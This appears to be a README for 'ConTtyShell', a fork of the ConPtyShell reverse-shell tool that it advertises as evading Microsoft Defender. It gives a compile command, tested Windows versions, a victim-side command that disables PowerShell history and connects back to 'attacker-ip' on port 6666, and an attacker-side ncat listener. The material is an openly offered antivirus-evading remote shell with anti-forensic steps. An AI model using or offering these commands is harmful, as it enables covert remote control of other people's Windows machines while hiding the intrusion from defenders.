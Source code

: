 # ConTtyShell
ConPtyShell Fork - Evades Microsoft Defender (24/11/2022)

**Original:**

https://github.com/antonioCoco/ConPtyShell

**Compile with:**

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /platform:x64 -nologo -debug -out:ConTtyShell.exe .\ConTtyShell.cs`

**Tested on:**
* Windows Server 2016 Datacenter 10.0 x64 Build 14393
* Windows 10 22H2 x64


**Victim side usage example:**

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing
.\ConTtyShell.exe attacker-ip 6666
```

**Attacker side usage example:**

```
stty raw -echo; (stty size; cat) | ncat -lvnp 6666
```
